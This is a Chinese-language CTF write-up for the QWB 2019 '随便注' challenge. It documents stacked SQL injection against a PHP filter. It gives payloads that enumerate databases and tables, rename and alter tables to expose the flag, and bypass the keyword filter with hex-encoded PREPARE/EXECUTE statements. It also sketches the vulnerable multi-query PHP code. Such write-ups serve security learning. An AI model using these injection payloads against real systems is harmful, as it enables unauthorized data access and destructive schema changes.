 # \[强网杯 2019]随便注

## \[强网杯 2019]随便注

## 考点

* 堆叠注入
* MySQL操作库表函数
* 预编译注入

## wp

1. 打开靶机，随便提交，发现似乎是把 PHP 查询的原始结果之间返回了
2.  输入 select 发现了过滤语句，过滤了 select，update，delete，drop，insert，where 和 .

    `return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
3. 测试一下有没有注入。`?inject=1'%23`，返回正常，字符型注入
4.  过滤了这么多关键词，尝试堆叠注入。`?inject=1';show databases;%23`，看到了所有的数据库

    ![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_supersql\_1.png)
5.  再看一下所有的表。`?inject=1';show tables;%23`，1919810931114514 表和 words 表

    ![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_supersql\_2.png)
6. flag 在全数字的表里，默认查询的是 words 表

```
   ?inject=1';show columns from `1919810931114514`;%23
   ?inject=1';show columns from `words`;%23
```

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/6.png)

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/7.png)

1. 既然没过滤 alert 和 rename，那就可以把表和列改名。先把 words 改为 words1，再把数字表改为 words，然后把新的 words 表里的 flag 列改为 id ，这样就可以直接查询 flag 了
2.  构造 payload 如下

    ```
    /?inject=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;%23
    ```
3. 使用 `/?inject=1' or '1'='1` 访问一下即可获得 flag

### 小结

1. MySQL中反引号和单引号的区别与用法
   1. MySql 中用一对反引号来标注 SQL 语句中的标识，如**数据库名、表名、字段名**等
   2. 引号则用来标注语句中所引用的字符型常量或日期/时间型常量，即**字段值**
   3. 例如：select \* from \`username\` where \`name\`="peri0d"
2.  PHP 代码推测，这里只是一个大概的流程，和实际可能有出入。参照 sqli-labs 里的代码

    ```
    <?php
    function waf($inject){
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
    	die('return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);');
    }

    if(isset($_GET['inject'])){
    	$id = $_GET['inject'];
    	waf($id);
    	
    	$con1 = mysqli_connect($host,$dbuser,$dbpass,$dbname);
    	$sql = "select * from `words` where ;";
    	
    	/* execute multi query */
    	if (mysqli_multi_query($con1, $sql)){
    		/* store first result set */
    		$result = mysqli_multi_query($con1);
    		if ($result)
    		{
    			if($row = mysqli_fetch_row($result))
    			{
    			  var_dump($row);
    			}
    		
    		}
    		/* print divider */
    		if (mysqli_more_results($con1))
    		{
    			echo "<hr>";
    		}
    	}
    	mysqli_close($con1);
    }

    ?>
    ```
3. MySQL 的 show、rename 和 alter 命令
   1. show 可以用于查看当前数据库，当前表，以及表中的字段
   2. rename 用于修改 table 的名称
   3. alter 用于修改表中字段的属性
4. 攻击思路：默认查询 words 表，可以将数字表的名称改成 words，这样就可以 使用 or '1'='1 直接查询 flag 了
5. 第二个思路是利用预编译，先构造一个sql语句，然后执行它，payload转化成16进制绕过waf

```
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

这里的十六进制是

```
select * from `1919810931114514`
```
